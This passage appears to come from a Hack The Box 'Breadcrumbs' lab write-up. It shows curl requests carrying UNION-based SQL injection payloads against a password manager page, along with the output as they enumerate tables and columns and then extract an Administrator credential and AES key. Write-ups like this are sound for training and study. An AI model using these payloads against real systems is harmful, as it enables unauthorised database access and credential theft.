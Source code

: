 Then we use `tables` table to see the tables who don't belong to `information_schema` database.

```bash
┌──(root💀f4T1H)-[~/hackthebox/breadcrumbs]
└─> curl 'http://passmanager.htb:1234/index.php' -d "method=select&username=administ'union select table_name from information_schema.tables where not table_schema='information_schema'-- -rator&table=passwords"
selectarray(1) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(9) "passwords"
  }
}
```

One table here, let's look at its column's names.

```bash
┌──(root💀f4T1H)-[~/hackthebox/breadcrumbs]
└─> curl 'http://passmanager.htb:1234/index.php' -d "method=select&username=administ'union select column_name from information_schema.columns where table_schema='bread'-- -rator&table=passwords"
selectarray(4) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(2) "id"
  }
  [1]=>
  array(1) {
    ["aes_key"]=>
    string(7) "account"
  }
  [2]=>
  array(1) {
    ["aes_key"]=>
    string(8) "password"
  }
  [3]=>
  array(1) {
    ["aes_key"]=>
    string(7) "aes_key"
  }
}
```

Four columns, and looking at their content gives us a password and an aes key...

```bash
┌──(root💀f4T1H)-[~/hackthebox/breadcrumbs]
└─> curl 'http://passmanager.htb:1234/index.php' -d "method=select&username=administ'union select concat(id,':::',account,':::',password,':::',aes_key) from bread.passwords-- -rator&table=passwords"
selectarray(1) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(83) "1:::Administrator:::H2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw=:::k19D193j.<19391("
  }
}
```
